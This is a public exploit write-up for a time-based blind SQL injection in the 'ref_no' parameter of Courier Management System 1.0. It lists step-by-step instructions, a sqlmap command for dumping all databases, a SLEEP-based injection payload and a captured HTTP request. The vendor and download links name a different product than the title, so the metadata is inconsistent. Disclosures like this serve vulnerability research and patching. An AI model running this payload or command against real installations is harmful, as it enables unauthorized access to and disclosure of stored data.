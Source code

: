 # Exploit Title: Courier Management System 1.0 - 'ref_no' SQL Injection.md
# Exploit Author: Zhaiyi (Zeo)
# Date: 2020-12-11
# Vendor Homepage: https://www.sourcecodester.com/php/14615/task-management-system-using-phpmysqli-source-code.html
# Software Link: https://www.sourcecodester.com/download-code?nid=14615&title=Task+Management+System+using+PHP%2FMySQLi+with+Source+Code
# Affected Version: Version 1
# Category: Web Application

Step 1. Log into application with credentials
Step 2. Click on Branch
Step 3. Select New Branch http://127.0.0.1/index.php?page=new_branch
Step 4. Fill the form  , click on save
Step 5. Capture the request of the ""/ajax.php?action=get_parcel_heistory"" page inburpsute
Step 6. Save request and run sqlmap on request file using command " sqlmap -r request --time-sec=5 --dbs "
Step 7. This will inject successfully and you will have an information disclosure of all databases contents

---
Parameter: ref_no (POST)
    Type: time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
    Payload: ref_no=123' AND (SELECT 5575 FROM (SELECT(SLEEP(5)))ngIo) AND
'knst'='knst
---

POST
```
POST /ajax.php?action=get_parcel_heistory HTTP/1.1
Host: 10.211.55.4
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Content-Length: 69
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Content-Type: application/x-www-form-urlencoded; charset=UTF-8
Cookie: PHPSESSID=7d3o3jettnoe5mlbqbu2r07kv0
Origin: http://10.211.55.4
Referer: http://10.211.55.4/htdocs/index.php?page=track
X-Requested-With: XMLHttpRequest
Accept-Encoding: gzip

ref_no=123
```

![image-20201214102736371](https://gitee.com/godzeo/blogimg/raw/master/img/20201214102736.png)

